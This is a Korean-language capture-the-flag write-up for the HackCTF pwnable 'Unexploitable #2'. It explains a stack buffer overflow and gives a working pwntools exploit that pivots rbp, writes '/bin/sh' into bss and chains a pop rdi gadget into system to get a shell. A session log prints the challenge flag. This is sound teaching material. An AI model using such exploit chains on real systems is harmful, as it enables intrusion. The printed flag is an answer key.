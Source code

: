 # Unexploitable #2

---

우선 보호기법을 살펴보자.
```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

NX만 걸려있다.

`main()`의 코드를 살펴보자.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Hard RTL ha? You don't even have fflush@dynstr!\n", 1uLL, 0x30uLL, _bss_start);
  fgets(&s, 64, stdin);
  return 0;
}
```

0x40bytes를 입력받아서 bof취약점이 발생한다. Unexploitable #1에서는 문자열에서 fflush의 sh를 이용하여 쉘을 따냈었는데 이번에는 그러한 문자열이 보이지 않는다.

```
LOAD:0000000000400238	0000001C	C	/lib64/ld-linux-x86-64.so.2
LOAD:0000000000400399	0000000A	C	libc.so.6
LOAD:00000000004003A3	00000006	C	stdin
LOAD:00000000004003A9	00000006	C	fgets
LOAD:00000000004003AF	00000007	C	stdout
LOAD:00000000004003B6	00000007	C	system
LOAD:00000000004003BD	00000007	C	fwrite
LOAD:00000000004003C4	00000008	C	setvbuf
LOAD:00000000004003CC	00000012	C	__libc_start_main
LOAD:00000000004003DE	0000000F	C	__gmon_start__
LOAD:00000000004003ED	0000000C	C	GLIBC_2.2.5
.rodata:0000000000400798	0000001A	C	use this system gadget :D
.rodata:00000000004007B8	00000031	C	Hard RTL ha? You don't even have fflush@dynstr!\n
.eh_frame:000000000040088F	00000006	C	;*3$\"

```

"Hard RTL ha? You don't even have fflush@dynstr!\n" 문자열 중간에 0을 삽입하여 sh만 골라서 쓰려고 하였는데 해당 공간에는 NX때문에 쓰기권한이 없어서 불가능하다.

때문에 data영역에 "/bin/sh\x00"을 새로 쓴 다음 이를 인자로 넘겨주어 system함수를 실행시켜야 겠다. 다음과 같이 system함수의 plt는 주어져있다.

```c
int gift()
{
  return system("use this system gadget :D");
}
```

data영역에 "/bin/sh\x00" 문자열을 쓰는 것은 다음을 이용하면 된다.

```gdb
gdb-peda$ pd main
Dump of assembler code for function main:
...
   0x00000000004006ee <+98>:	mov    rdx,QWORD PTR [rip+0x20096b]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006f5 <+105>:	lea    rax,[rbp-0x10]
   0x00000000004006f9 <+109>:	mov    esi,0x40
   0x00000000004006fe <+114>:	mov    rdi,rax
   0x0000000000400701 <+117>:	call   0x400540 <fgets@plt>
=> 0x0000000000400706 <+122>:	mov    eax,0x0
   0x000000000040070b <+127>:	leave  
   0x000000000040070c <+128>:	ret    
End of assembler dump.
```

`main()+98`부터 살펴보자. 만약에 rbp에 내가 원하는 주소+0x10을 넣을 수 있다면 rdi에 내가 원하는 주소를 넣을수 있기 때문에 원하는 공간에 원하는 값을 쓸 수 있게 된다. 그리고 이 rbp는 `main()`이 끝날 때 leave를 이용해서 조작할 수 있다.

**main\_98=0x4006ee**


또한 gift의 call system gadget과 bss영역의 주소, 그리고 pop rdi gadget이 필요하다. 이는 다음과 같다.

```gdb
gdb-peda$ pd gift
Dump of assembler code for function gift:
   0x0000000000400676 <+0>:	push   rbp
   0x0000000000400677 <+1>:	mov    rbp,rsp
   0x000000000040067a <+4>:	mov    edi,0x400798
   0x000000000040067f <+9>:	mov    eax,0x0
   0x0000000000400684 <+14>:	call   0x400520 <system@plt>
   0x0000000000400689 <+19>:	nop
   0x000000000040068a <+20>:	pop    rbp
   0x000000000040068b <+21>:	ret    
End of assembler dump.
```
**gift=0x400684**

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/30.Unexploitable_2$ objdump -h Unexploitable_2 | grep "bss"
 25 .bss          00000020  0000000000601050  0000000000601050  00001050  2**4
```

**bss=0x601050**

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/30.Unexploitable_2$ ROPgadget --binary Unexploitable_2 | grep "pop rdi"
0x0000000000400773 : pop rdi ; ret
```

**pop\_rdi\_ret=0x400773**


다음과 같은 익스코드를 통해서 쉘을 따낼 수 있었다.

```python
from pwn import*

#p=process('./Unexploitable_2')
p=remote('ctf.j0n9hyun.xyz',3029)
#gdb.attach(p)

main_98=0x4006ee
pop_rbp_ret=0x4005e0
gift=0x400684
bss=0x601050+0x900
pop_rdi_ret=0x400773

p.recvuntil('!\n')

payload='A'*16
payload+=p64(bss+0x10)
payload+=p64(main_98)

p.sendline(payload)

payload2='/bin/sh\x00'
payload2+='A'*16
payload2+=p64(pop_rdi_ret)
payload2+=p64(bss)
payload2+=p64(gift)

p.sendline(payload2)

p.interactive()
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/30.Unexploitable_2$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3029: Done
[*] Switching to interactive mode
$ whoami
attack
$ cat flag
HackCTF{u5e_syst3m_t0_get_le4k}
```

**flag: 
HackCTF{u5e\_syst3m\_t0\_get\_le4k}**


